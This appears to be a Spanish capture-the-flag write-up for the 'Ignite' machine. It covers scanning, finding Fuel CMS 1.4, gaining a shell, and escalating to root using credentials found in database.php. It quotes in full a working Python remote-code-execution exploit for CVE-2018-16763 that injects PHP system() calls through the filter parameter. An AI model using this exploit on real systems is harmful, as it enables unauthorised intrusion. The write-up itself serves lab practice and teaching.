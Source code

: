 <h1 align="center">IGNITE</h1>

<p align="center"><img src="https://github.com/user-attachments/assets/fa03ed2c-01b4-4e32-9b09-0d65b14c13de"></p>

# INTRODUCCIÓN

Nos enfrentamos a la máquina Ignite, no tenemos mucha información.

Para empezar hacemos un test de conectividad.

![image](https://github.com/user-attachments/assets/6372bc97-569c-41b3-b38b-50086290acd8)

Nos encontramos con una máquina linux "ttl=64"

Procedemos a hacer un escaner de puertos

![image](https://github.com/user-attachments/assets/814d8e8d-0e67-4607-9f5d-b11939a48a56)

Nos encontramos una web funcionando por el puerto 80 (podríamos escanear todos los puertos en caso de querer buscar más)

Nos ecnontramos que tenemos el famoso "robots.txt" una rchivo /fuel/

Un apache 2.4.18 y tiene pinta que funciona con el CMS FUEL

Yo empezare haciendo un "curl -v" para ver si puedo sacar más información antes de entrar por navegador.

![image](https://github.com/user-attachments/assets/5c65bd8c-b116-451a-9e56-98f295265500)

No nos da mucha información vamos a probar con el navegador.

![image](https://github.com/user-attachments/assets/ef535631-8ca5-4d0f-89a0-7a4b536dce57)

Vemos que es inicio de el CMS FUEL con la versión 1.4 (miremos si tiene una vulnerabilidad)

![image](https://github.com/user-attachments/assets/bbf017ca-1643-414e-8700-4c6f1be52e4c)

```
# Exploit Title: Fuel CMS 1.4.1 - Remote Code Execution (3)
# Exploit Author: Padsala Trushal
# Date: 2021-11-03
# Vendor Homepage: https://www.getfuelcms.com/
# Software Link: https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.4.1
# Version: <= 1.4.1
# Tested on: Ubuntu - Apache2 - php5
# CVE : CVE-2018-16763

#!/usr/bin/python3

import requests
from urllib.parse import quote
import argparse
import sys
from colorama import Fore, Style

def get_arguments():
	parser = argparse.ArgumentParser(description='fuel cms fuel CMS 1.4.1 - Remote Code Execution Exploit',usage=f'python3 {sys.argv[0]} -u <url>',epilog=f'EXAMPLE - python3 {sys.argv[0]} -u http://10.10.21.74')

	parser.add_argument('-v','--version',action='version',version='1.2',help='show the version of exploit')

	parser.add_argument('-u','--url',metavar='url',dest='url',help='Enter the url')

	args = parser.parse_args()

	if len(sys.argv) <=2:
		parser.print_usage()
		sys.exit()
	
	return args


args = get_arguments()
url = args.url 

if "http" not in url:
	sys.stderr.write("Enter vaild url")
	sys.exit()

try:
   r = requests.get(url)
   if r.status_code == 200:
       print(Style.BRIGHT+Fore.GREEN+"[+]Connecting..."+Style.RESET_ALL)


except requests.ConnectionError:
    print(Style.BRIGHT+Fore.RED+"Can't connect to url"+Style.RESET_ALL)
    sys.exit()

while True:
	cmd = input(Style.BRIGHT+Fore.YELLOW+"Enter Command $"+Style.RESET_ALL)
		
	main_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+quote(cmd)+"%27%29%2b%27"

	r = requests.get(main_url)

	#<div style="border:1px solid #990000;padding-left:20px;margin:0 0 10px 0;">

	output = r.text.split('<div style="border:1px solid #990000;padding-left:20px;margin:0 0 10px 0;">')
	print(output[0])
	if cmd == "exit":
		break
```

Parece que hemos dado en la diana.

![image](https://github.com/user-attachments/assets/bfa62295-dd5a-4c84-adb4-5b4ecb763544)

Estamos dentro, ahora lo que me centraría yo es en crear una buena shell y upgradearla.

```
/bin/bash -i
```

![image](https://github.com/user-attachments/assets/31b562b7-efc7-4532-8a8f-d744a28d7650)

![image](https://github.com/user-attachments/assets/00ad2cf4-a851-4036-ace9-13dd33af2a4b)

Sacamos la flag de usuario

![image](https://github.com/user-attachments/assets/2e4ab794-9182-44c7-9a1b-2bd63f3e26f1)

Ahora probaremos a hacer una escalada de privilegios, lo primero que probaria es hacer un sudo -l

```
sudo -l
```

Obviamente no vamos a poder hacerlo porque necesitamos una contraseña.

Después de mucho rato buscando e investigando, me he dispuesto a investigar el sistema. Scripts, etc, kernel.

La cosa era mucho más simple que todo esto

```
find / -name database.php 2>&1 | grep -v “Permission denied”
```

![image](https://github.com/user-attachments/assets/a83bd7be-2c21-42c0-9da7-fe7818388b1f)

```
su root
```

![image](https://github.com/user-attachments/assets/7a2c0fbc-5ec7-4a69-919a-6af3a85e2ee1)

GG











